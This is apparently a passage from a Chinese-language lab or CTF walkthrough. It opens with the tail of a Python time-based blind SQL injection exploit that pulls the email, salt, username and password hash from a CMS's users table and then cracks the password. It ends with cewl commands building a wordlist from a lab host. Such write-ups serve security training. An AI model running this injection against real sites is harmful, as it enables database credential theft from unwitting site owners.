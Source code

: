 ```bash
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print(colored("[*] Now try to crack password"))
    crack_password()

beautify_print()

```

#### cewl生成字典

> He was married to anasuya
>
> 他与阿奴苏亚结婚

https://digi.ninja/

提取网页关键字生成字典

```bash
cewl 192.168.70.44
cewl 192.168.70.44 -w user.txt
```



```bash
└─# cewl 192.168.70.44
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
the
and
are
Vedas
with
texts
WEB
KASHYAPA
Image
The
Hinduism
they
were
Sanskrit
ancient
ABOUT
Parallax
Text
They
```